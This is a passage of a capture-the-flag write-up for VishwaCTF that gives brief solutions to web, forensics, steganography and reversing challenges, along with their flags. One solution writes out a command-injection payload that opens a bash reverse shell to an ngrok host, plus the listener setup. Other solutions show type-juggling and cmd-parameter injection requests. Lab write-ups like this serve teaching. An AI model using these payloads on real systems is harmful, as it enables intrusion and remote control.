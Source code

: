 ```php
                );</script>";
        }
    }
   }
```

The payload, if I recall correctly, was something like `google.com; /bin/bash -l > /dev/tcp/NGROK_IP/NGROK_PORT 0<&1 2>&1`. Create a reverse shell listener using `nc -nlvp 8888`. Then use ngrok to create a TCP tunnel accessible via the internet using `ngrok tcp 8888` and copy the IP and PORT.

Flag: `VishwaCTF{b1inD_cmd-i}`



### 1nj3ct0r

Simple USB forensics challenges. Just open the file with wireshark and go through each packet containing data. Look at `HID data > Array > value`.

Flag: `VishwaCTF{n0W_y0u_423_d0n3_w17h_u58_f023n51c5}`



### CID

- Extract 7z archive using `binwalk` on the provided image.
- There's also this in exif data:
```
Certificate                     : This is for you PASS='daya darwaza tod do'
```
- Even though there are 1000 files after extracting the 7z archive, 999 of them are same. The one named `369.jpg` is different.
- Run steghide extraction using the password from the exif data. This gives us the flag.

Flag: `vishwaCTF{my_GOD_D4ya_tumn3_t0_fl4g_dhund_liy4....}`



### Eeeezy

PHP Type Juggling. Change the username and password paramters from `username=<WHATEVER>&password=<WHATEVER>` to `username[]=42&password[]=42`.

Flag: `VishwaCTF{5t0p_c0mp4r1ng}`



### Payload

Visit /robots.txt and find relevant information on using the `cmd` parameter for injection. Then send a request with `/?cmd=grep -r -i --text vishwa`.

Flag: `VishwaCTF{y0u_f-o-u-n-d_M3}`



### Reversing is EZ

Notice that the exe provided is compiled python application. We can use `pyi-archive_viewer` to extract out relevant PYC files from the binary. Extract the PYC file called `examine`. We can either decompile this file or run `strings` and find the relevant hex string and unhex it to get the flag.
